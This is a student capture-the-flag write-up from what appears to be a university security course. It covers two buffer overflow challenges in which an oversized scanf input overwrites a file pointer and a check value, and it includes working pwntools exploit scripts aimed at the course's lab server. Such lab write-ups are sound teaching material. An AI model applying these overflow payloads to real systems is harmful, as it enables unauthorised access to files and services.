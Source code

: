 # Buffer Overflow - Challenge 1

## Introduction 

When connecting to a Linux server listening on the port 4003 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4003 or using the exploit-example.py script given to us.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

If we simply run the program, it prints out an ASCII image that is a reference to the 'Rick and Morty' show, beacuse it reads the 'mem.txt' file.

We are give a main.c file that has the source code of the program that is already compiled and that is given to us to test our exploit before putting it in action in the server.

This program has a buffer overflow because the scanf function is used like this:

```c
scanf("%40s", buffer);
```

This means that the program will read 40 characters from the input and store them in the buffer variable. However this variable has only 32 bytes of space allocated to it, which means that if we write more than 32 characters, we will be writing in the memory that is after the buffer variable, which is occupied by the variable 'meme_file' that is a pointer to a file. 
This pointer is currently pointing to the mem.txt and we need to make it point to the flag.txt file.


## Solution

We can simply write 32 characters and then write the path to the flag.txt file, which is 'flag.txt', since we know it is in the working directory.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"12345678901234567890123456789012flag.txt")
r.interactive()
```
And we get this flag: 

![desafio1](../docs/ctf5/desafio1flag.png)

# Buffer Overflow - Challenge 2

## Introduction 

When connecting to a Linux server listening on the port 4000 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4000 or using the exploit-example.py script given to us.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

The initial situation is similar to challenge 1 but this time we need to work a bit harder to achieve our goal: a buffer overflow of a scanf function, but we will be using text format this time.

This time, the source code has a 'val' variable that has to be a specific value for the file to be read:

```c
if(*(int*)val == 0xfefc2324) 
```
This condition makes it harder to get the contents of the 'flag.txt' file.

## Solution

To get the contents of the file we want, we fill the 32 bytes of the buffer with whatever we want, then for the 4 bytes of the 'val' variable, we need to write these in reverse order, since it the values are written in a bottom-up stack. Finally the last bytes correspond to the address of the meme_file variable and there we write 'flag.txt'.

We write this input in the python script:

```python
 #!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"0" * 32 + b"\x24\x23\xfc\xfe" + b"flag.txt")
r.interactive() 
```

And we get our flag:

![desafio2](../docs/ctf5/desafio2flag.png)



